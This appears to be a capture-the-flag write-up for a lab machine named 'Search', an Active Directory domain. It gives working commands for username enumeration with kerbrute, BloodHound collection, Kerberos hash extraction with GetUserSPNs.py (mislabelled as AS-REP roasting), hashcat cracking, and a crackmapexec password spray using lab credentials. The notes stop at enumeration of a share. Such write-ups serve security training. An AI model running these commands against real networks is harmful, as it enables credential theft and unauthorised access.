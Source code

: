 # Search
```
10.10.11.129
```


Hostname: `RESEARCH`
Domain name: `search.htb`

kerbrute found some valid user names:

```
administrator@search.htb
research@search.htb
```

Hope Sharp
IsolationIsKey?

Using different permutations of her name in a wordlist combined with `kerbrute` we were able to find a valid username of `hope.sharp`

![[Pasted image 20220712230945.png]]

Then we run bloodhound

```
bloodhound-python -u hope.sharp -p "IsolationIsKey?" -d search.htb -ns 10.10.11.129
```

we then pull this into bloodhound and find an account that is vulnerable to AS-REP Roasting

```
GetUserSPNs.py search.htb/hope.sharp:"IsolationIsKey?" -outputfile web_svc_kerberos
```

and then crack the hash

```
hashcat web_svc_kerberos /usr/share/wordlists/rockyou.txt
```

Which give us the following set of creds.

```
web_svc
```

```
@3ONEmillionbaby
```

Now we have a list of users in bloodhound. We did some magic with powershell to extract the usernames:

start powershell
```
pwsh
```

import the users.json file
```
$json = gc ./20220712232201_users.json | ConvertFrom-Json
```


pull out the username and strip the `@search.htb`, save this to a file `users-ad.txt`
```
$json.data.Properties.name |%{$_.split("@")[0]} | Sort-Object -Unique > users-ad.txt
```

Then we check the username list for password reuse:

```
crackmapexec smb search.htb -u users-ad.txt -p "@3ONEmillionbaby"
```

It looks like `EDGAR.JACOBS` is using the same password.

We then use bloodhound to see what transitive object controlls this user has

![[Pasted image 20220713000236.png]]

We see Edgar has access to the `Helpdesk` share

```
crackmapexec smb search.htb -u edgar.jacobs -p "@3ONEmillionbaby" --shares
```

![[Pasted image 20220713000621.png]]

